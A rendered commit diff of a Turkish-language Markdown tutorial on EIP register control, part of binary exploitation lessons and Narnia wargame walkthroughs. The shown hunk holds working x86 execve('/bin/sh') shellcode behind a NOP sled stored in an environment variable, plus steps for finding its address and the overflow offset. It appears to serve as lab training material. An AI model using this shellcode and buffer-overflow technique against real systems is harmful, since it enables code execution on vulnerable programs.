

Before and after one commit to waitaseC137/linux_learning, a Markdown page: konu_anlatimlari/binary_exploitation/03_eip_register_kontrolu.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Narnia seviye seviye walkthrough'lar + binary exploitation konu anlatımları

```diff
--- a/konu_anlatimlari/binary_exploitation/03_eip_register_kontrolu.md
+++ b/konu_anlatimlari/binary_exploitation/03_eip_register_kontrolu.md
@@ -252,7 +252,12 @@ python3 -c "from pwn import *; print(cyclic_find(0xXXXXXXXX))"
 
 # Adım 2: Shellcode adresini bul (environment variable yöntemi — narnia2 environ'ı silmez)
 export EGG=$(python3 -c "import sys; sys.stdout.buffer.write(b'\x90'*100 + b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80')")
-(gdb) x/s *((char **)environ)                    # EGG'in adresini gör
+# EGG adresini getenvaddr ile bul (helper kaynağı → 04_shellcode_ve_nop_sled.md).
+# x/s *((char**)environ) KULLANMA: o environ[0]'ı (ilk env değişkenini) gösterir,
+# EGG'i değil; ayrıca GDB içinde okursan adres gerçek çalıştırmadan kayar.
+# getenvaddr'ı bare shell'de, hedefle AYNI ortamda çalıştır:
+narnia2@narnia:/narnia$ /tmp/getenvaddr EGG /narnia/narnia2
+EGG -> 0xffffd050     # örnek — NOP sled içindeki bu adresi EIP'ye yaz (büyük sled kaymayı tolere eder)
 
 # Adım 3: Payload (offset'i kendi bulduğun değerle değiştir)
 OFFSET=140   # ← cyclic -l çıktısı (132 de olabilir)
```
Also changed, not shown: konu_anlatimlari/binary_exploitation/08_pointer_manipulation.md (+6 -4 lines).
